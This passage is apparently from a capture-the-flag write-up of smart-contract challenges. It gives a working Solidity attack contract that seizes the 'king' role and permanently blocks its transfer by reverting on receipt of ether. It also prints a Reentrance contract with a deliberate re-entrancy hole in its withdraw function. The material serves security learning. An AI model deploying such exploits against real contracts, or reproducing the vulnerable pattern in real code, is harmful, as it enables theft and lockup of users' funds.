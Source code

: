 ```solidity
    king = msg.sender;
    prize = msg.value;
  }
  function _king() public view returns (address payable) {
    return king;
  }
}
```

To solve this challenge we need to become the king at the end of the submission .

There's a fallback function that makes a user as king if the msg.value greater than or equals to the prize value .So anyone can become king but we need to stop the others.

First we send ether more than prize and become king.

Next we need to stop the king.transfer() function to stop others to become king after the submission.

```solidity
contract Kinghack {

    constructor(address _add) payable {
        _add.call{value:1000000000000001}("");
    }
    receive() external payable {
        require(1==2);
    }
}
```

## 10 Re-entrancy

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
import '@openzeppelin/contracts/math/SafeMath.sol';
contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;
  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }
  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
  receive() external payable {}
}
```
